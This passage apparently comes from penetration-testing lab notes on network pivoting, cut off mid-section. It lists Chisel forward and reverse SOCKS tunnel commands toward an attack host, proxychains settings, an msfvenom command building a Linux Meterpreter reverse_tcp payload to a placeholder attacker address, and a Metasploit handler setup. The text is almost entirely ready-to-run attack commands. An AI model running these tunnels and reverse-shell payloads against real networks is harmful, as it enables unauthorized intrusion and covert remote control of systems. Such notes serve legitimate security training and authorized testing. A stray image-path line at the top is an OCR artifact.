 ```shell
./chisel server -v -p 1234 --socks5
```

Connecting to the Chisel Server

```shell
./chisel client -v 10.129.202.64:1234 socks
```

Editing & Confirming proxychains.conf

```shell
tail -f /etc/proxychains.conf

socks5 127.0.0.1 1080 
```

**Chisel Reverse Pivot**

Starting the Chisel Server on our Attack Host

```shell
sudo ./chisel server --reverse -v -p 1234 --socks5
```

Connecting the Chisel Client to our Attack Host

```shell
./chisel client -v 10.10.14.17:1234 R:socks
```

Editing & Confirming proxychains.conf

```shell
tail -f /etc/proxychains.conf 

socks5 127.0.0.1 1080 
```

## Meterpreter

### SOCKS Tunneling with Autoroute

Msfvenom payload

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=PWNIP LPORT=PWNPO -f elf -o 99c0b43c4bec2bdc280741d8f3e40338.elf
```

Metasploit listener

```shell
use exploit/multi/handler
set lhost
set lport
set payload linux/x64/meterpreter/reverse_tcp
```

Creating Routes with Autoroute
